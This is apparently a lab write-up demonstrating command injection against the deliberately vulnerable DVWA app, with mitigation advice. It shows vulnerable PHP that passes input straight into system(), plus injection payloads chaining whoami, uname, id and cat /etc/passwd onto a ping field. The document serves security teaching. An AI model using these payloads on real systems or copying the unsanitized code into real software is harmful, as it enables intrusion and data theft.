



# Attack Simulation 5 – Command Injection in DVWA (Realistic OS Command Execution)

## 🎯 Objective

Simulate a **Command Injection** vulnerability using DVWA, and explore how unsanitized user input can lead to arbitrary command execution on the target operating system. This is a **critical-level server-side vulnerability** and often results in full system compromise.

---

## 💡 What is Command Injection?

**Command Injection** occurs when a web application passes **user input into a system shell command** without proper validation or sanitization. If the input is not strictly controlled, attackers can **inject additional OS commands** and execute them with the same privileges as the running application (usually `www-data`, but sometimes `root`).

---

## 🔍 Real-World Scenarios (How This Happens in Actual Systems)

While DVWA presents a simple "ping this IP" form, this same vulnerability appears in **real-world applications**, often in:

| Scenario | Description |
|----------|-------------|
| 🛠 Admin dashboards | Internal tools that ping hosts, reboot services, or run diagnostics using shell |
| 📁 File processing apps | Unsanitized filenames used in commands like `zip`, `convert`, `ffmpeg`, etc. |
| 🌐 IoT devices / routers | Web interfaces allowing commands like `ping`, `traceroute`, `dnslookup` |
| 🖼️ Image or PDF converters | Unsafe use of system commands with user-uploaded input |
| 🤖 DevOps tools / scripts | Webhooks or scripts that use `system()`, `exec()`, or backticks with input |

> ⚠ Example vulnerable code:
> ```php
> $host = $_GET['ip'];
> system("ping -c 1 $host");
> ```

If an attacker enters:
```
127.0.0.1; whoami
```

The system runs:
```bash
ping -c 1 127.0.0.1; whoami
```

And executes both commands — that’s command injection.

---

## ✅ Steps Taken

### 1️⃣ Initial Test (Valid Input)
Submitted:
```
127.0.0.1
```
✅ Output showed ping results:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data...
```



*Figure 1: Working of Ping*

This confirms that the application is running a backend `ping` command.

---

### 2️⃣ Command Injection (Simple Proof)

#### Payload:
```
127.0.0.1; whoami
```

#### Result:
```
www-data
```



*Figure 2: Username*

This means your command was executed on the target OS, leaking the web server's current user.

---

### 3️⃣ More Payloads Tried

#### OS Info:
```
127.0.0.1 && uname -a
```



*Figure 3: OS Information*

✅ Printed Linux kernel, architecture, and version

#### File System Read:
```
127.0.0.1; cat /etc/passwd
```


*Figure 4: How to read a File via command Injection*

✅ Dumped system accounts, proving file access

---

## 🔬 Why This Works

The app likely runs:
```php
system("ping -c 1 " . $_GET['ip']);
```

When no input sanitization is applied, any shell metacharacter like `;`, `&&`, or `|` allows attackers to **chain arbitrary commands** onto the original one.

These metacharacters signal to the shell:
- `;` → run both commands sequentially
- `&&` → run second only if first succeeds
- `|` → pipe output of first into second

Because `$_GET['ip']` is not escaped, injected commands become part of the system call.

---

## ✅ Key Commands Used (and Their Purpose)

| Command | Description |
|---------|-------------|
| `127.0.0.1; whoami` | Injects and runs `whoami` after ping |
| `127.0.0.1 && uname -a` | Shows kernel version and OS info |
| `127.0.0.1; cat /etc/passwd` | Dumps system user file |
| `127.0.0.1 && id` | Displays UID, GID, and groups |
| `127.0.0.1 && hostname` | Gets system hostname |

---

## 🛡 Impact

- Execute system-level commands
- Steal sensitive data
- Enumerate system config and users
- Download backdoors
- Establish reverse shells (RCE escalation)

If an attacker gets command injection and the app is running as `root`, it’s **game over**.

---

## 🔐 Mitigation (Best Practices)

| Defense | Why It Works |
|---------|--------------|
| Input validation | Only allow valid IPs (regex) |
| Parameterized functions | Use `escapeshellarg()` or equivalent |
| Avoid shell commands | Use native code/APIs instead of `system()` |
| Least privilege | Web server should never run as root |

---

## 📌 Conclusion

This simulation successfully demonstrates a **real-world applicable** command injection attack. By injecting OS commands through an unsanitized input field in DVWA, we proved how attackers can:

- Execute commands
- Access system files
- Gain foothold for further exploitation

> ⚠️ Command Injection is classified as **CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')** and is one of the most severe vulnerabilities in web apps.

**Simulation 5 complete and confirmed. ✅**

